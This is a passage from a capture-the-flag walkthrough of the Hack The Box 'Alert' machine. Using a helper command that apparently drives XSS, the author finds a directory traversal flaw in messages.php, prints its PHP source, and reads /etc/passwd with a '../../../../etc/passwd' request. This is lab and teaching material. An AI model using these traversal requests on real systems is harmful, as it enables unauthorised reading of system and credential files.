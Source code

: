 We've got **not** empty response and from it's content we can see that `messages.php` accepts `file` GET parameter. Let's follow href from reponse.
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ xss_browse /messages.php?file=2024-03-10_15-48-34.txt
```
```
[2025-03-22 06:49:04] IP: [10.129.231.188] | User-Agent: [Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36] | Data: [<pre></pre>]
```

Looks that `2024-03-10_15-48-34.txt` might be empty (or non-existing), let's check if we could traverse directories.
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ xss_browse /messages.php?file=../messages.php
```
```
[2025-03-22 06:49:37] IP: [10.129.231.188] | User-Agent: [Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36] | Data: [<pre><?php
$ip = $_SERVER['REMOTE_ADDR'];
if ($ip == '127.0.0.1' || $ip == '::1') {
    $directory = "messages/";

    $messages = glob($directory . "*.txt");

    if (isset($_GET['file'])) {
        $file = $_GET['file'];
        echo "<pre>" . file_get_contents($directory . $file) . "</pre>";
    } else {
        echo "<h1>Messages</h1>";
        if (count($messages) > 0) {
            echo "<ul>";
            foreach ($messages as $message) {
                $filename = basename($message);
                echo "<li><a href='messages.php?file=$filename'>$filename</a></li>";
            }
            echo "</ul>";
        } else {
            echo "No messages found.";
        }
    }
}
?>

</pre>]
```

With this PHP code (of `messages.php`) in output have discovered yet another vulnerability. This time it's LFI in locally available `messages.php` in `file` parameter. This vulnerability will not lead to RCE, but still could be handy. Let's add it to our already exising chain of exploits and use it browse local files. But first let's check how far we need to traverse to reach `/`, we will use good old `/etc/passwd` for probing. After couple of tries we got:
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ xss_browse /messages.php?file=../../../../etc/passwd
```
```
[2025-03-22 06:50:28] IP: [10.129.231.188] | User-Agent: [Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36] | Data: [<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```